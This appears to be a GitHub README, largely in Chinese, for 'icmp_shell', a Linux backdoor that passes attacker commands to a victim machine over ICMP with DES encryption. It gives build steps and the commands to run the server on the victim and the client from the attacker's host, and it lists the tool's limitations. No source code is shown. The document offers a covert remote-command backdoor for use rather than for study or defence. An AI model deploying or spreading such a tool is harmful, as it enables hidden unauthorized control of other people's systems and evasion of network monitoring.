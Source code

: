 # icmp_shell
A backdoor based on icmp protocol, support linux platform.


## 使用方法

    make client   # 编译client
    make server   # 编译server
  
受害机运行：

    ./server attack-ip
    
攻击者运行:

    ./client victim-ip command
    
## 优点

* 使用des进行数据通信的加密
* 全程基于icmp协议进行数据通信
* 只满足了核心功能

## 不足

* 没有添加交互式
* 非反弹式，碰到nat无法使用
* 需要使用root权限运行
* 没有处理错误输出
* 代码中没有处理异常情况
* 缺点太多:(

## 使用截图

![](icmp-shell.png)


